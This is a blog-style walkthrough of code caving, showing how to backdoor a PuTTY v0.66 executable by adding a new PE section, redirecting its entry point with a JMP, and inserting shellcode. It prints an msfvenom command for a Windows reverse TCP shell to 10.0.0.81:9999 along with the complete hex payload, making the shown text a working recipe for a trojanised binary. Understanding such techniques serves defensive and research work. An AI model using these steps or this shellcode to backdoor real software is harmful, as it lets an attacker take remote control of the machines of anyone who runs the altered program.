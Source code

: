```yaml
---
layout: single
title: Code caving & backdooring Windows PE files
---
```


Code caving is a technique deployed by threat actors to run malicious shellcode without the valid PE space of a regular program. It's a technique where an actor discovered an un-used or non-optimized part of code within a compiled program that they can use for hijacking the execution flow, which can lead to the application executing a malicious shellcode payload.

### Thanks Wikipedia
> A code cave is a series of null bytes in a process's memory. The code cave inside a process's memory is often a reference to a section of the code's script functions that have capacity for the injection of custom instructions. For example, if a script's memory allows for five bytes and only three bytes are used, then the remaining two bytes can be used to add additional code to cript without making significant changes. 

---

This walkthrough will be utilizing an older version of Putty, Putty v0.66, which can be downloaded from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.66.html).

----

We can start by opening up putty.exe within CFF Explorer to view the PE data.

![code caving 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_1.png)

Open up the section headers tab and we need to add a new header, this header will be utilized for malicious purposes. Go to `Section Headers [x]` > Right-click and select `Add Section (Empty Space)`, and adjust the size of the section to 1000 spaces. Then name your new section header. I will be naming it `.shell`. Adding these spaces will allow the program to be sen as a legitimate application instead of just throwing you an error and crashing if you don't have data. This blank data will also be utilized soon.

![code caving 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_2.png)

Now we can open up our new binary in Immunity Debugger. If you run the application it will show "Program entry point" on the bottom left of Immunity, this is what we want to hijack to point to our soon to be malicious `.shell` segment.

![code caving 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_3.png)

From here you copy the `.shell` section headers address and edit the Program entry point to a `JMP <SECTION ADDRESS>`. 

![code caving 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_4.png)

![code caving 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_5.png)

Now you can press `F7` and step into the newly edited JMP call, this will lead to our new section we created.

![code caving 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_6.png)

Now you also want to edit the new section in Immunity and add a `PUSHFD` to the start of your malicious new section. Assemble it when done.

Now you can generate your msfvenom payload, use a EXITFUN=seh to ensure it handles proper exiting to add to the stability and reliability of your shell. Generate it in hex format you you can now copy past this into Immunity Debugger into your new malicious section.

```
└─▪ ./msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.81 LPORT=9999 -f hex EXITFUNC=seh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b5
92001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b6159
5a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976
a05680a000051680200270f89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089e357575731f66a125956e2fd66c74424
3c01018d442410c60044545056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbfe0e32ea68a695bd9dffd53c067c0a80fbe07
505bb4713726f6a0053ffd5
```


----
